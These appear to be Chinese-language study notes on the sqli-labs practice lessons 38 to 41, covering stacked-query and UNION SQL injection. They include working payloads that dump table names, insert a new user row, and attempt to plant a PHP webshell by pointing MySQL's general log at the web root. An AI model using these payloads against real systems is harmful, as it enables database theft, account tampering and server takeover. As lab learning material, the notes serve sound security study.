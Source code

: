 mysqli_multi_query 执行一个或多个由分号分隔的查询。 

可以执行多条sql语句

```
?id=0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
```

```
-1';insert into users(id,username,password) values(15,'test','test');
```

但是不知道表结构，也没有用的

**日志写webshell**

直接用outfile写好像也行，`secure_file_priv`为空

```
show variables like '%general%';
set global general_log = "ON";
set global general_log_file='/var/www/html/shell.php'
select <?php phpinfo();?>
```

payload

```
?id=1';set global general_log = "ON";set global general_log_file='/var/www/html/shell.php';--+
?id=1';select <?php phpinfo();?>
```

这里写不进去（linux），用户是mysql，必须给mysql用户目录权限才能写

## less-39

数字型注入

payload

```
-1+union+select+1,database(),3;--+
```

## less-40

```
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

payload

```
-1')+union+select+1,database(),3;--+ 
```

## less-41

因为少了报错输出，所以这里不能报错注入
